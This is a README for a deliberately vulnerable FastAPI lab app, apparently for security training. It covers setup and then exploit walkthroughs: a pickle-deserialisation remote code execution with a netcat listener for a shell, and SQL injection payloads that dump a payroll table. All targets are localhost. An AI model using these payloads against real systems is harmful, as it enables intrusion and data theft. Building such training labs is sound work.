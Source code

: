 # InAPickle

## Requirements

Local Build:

- Python 3

- Python virtualenv

    ```bash
    python3 -m pip install --user virtualenv
    ```

Docker Build:

- Docker

## Install and Start FastAPI Locally

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Start virtual environment:

    ```bash
    python3 -m virtualenv .venv
    . .venv/bin/activate
    ```

3. Install pip packages:

    ```bash
    pip install -r requirements.txt
    ```

4. Start FastAPI with uvicorn:

    ```bash
    uvicorn main:app --reload
    ```

5. App should now be reachable at http://localhost:8000.

## Install and Start FastAPI with Docker

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Build docker image:

    ```bash
    docker build -t inapickle .
    ```

3. Start inapickle container:

    ```bash
    docker run -it --rm -p 8000:8000 --name inapickle inapickle
    ```

## Clues that this is exploitable

1. The Pickle icon...

2. The `/docs` page can be found usin `dirb` with the default wordlist (`common.txt`).

3. The `/docs` page is auto-generated and contains descriptions of methods and schemas. This explains that the backup/restore file is pickled Python data.

## Exploit

1. Edit the command you wish to run on the victim server (line 6 in poc.py):

    ```bash
    vim inapickle/poc.py
    ```

2. Run PoC script (generates inapickle/payload.txt):

    ```bash
    python3 inapickle/poc.py
    ```

3. (Optional) Set up listener. For example:

    ```bash
    nc -nlvp 4444
    ```

4. Perform remote code execution:

    ```bash
    curl -L -F 'file=@inapickle/payload.txt' localhost:8000/restore-sqlite
    ```

## BONUS Exploit - SQL Injection

1. Discover another sensitive table in the database:

    ```bash
    curl -XPOST 'http://localhost:8000/read-contact' \
      -H 'Content-Type: application/json' \
      --data-raw $'{"first_name":"\' or 1=1 UNION SELECT * FROM sqlite_schema WHERE type = \'table\';--","last_name":""}'
    ```

2. Dump payroll table:

    ```bash
    curl -XPOST 'http://localhost:8000/read-contact' \
      -H 'Content-Type: application/json' \
      --data-raw $'{"first_name":"\' or 1=1 UNION SELECT *,1 FROM payroll;--","last_name":""}'
    ```
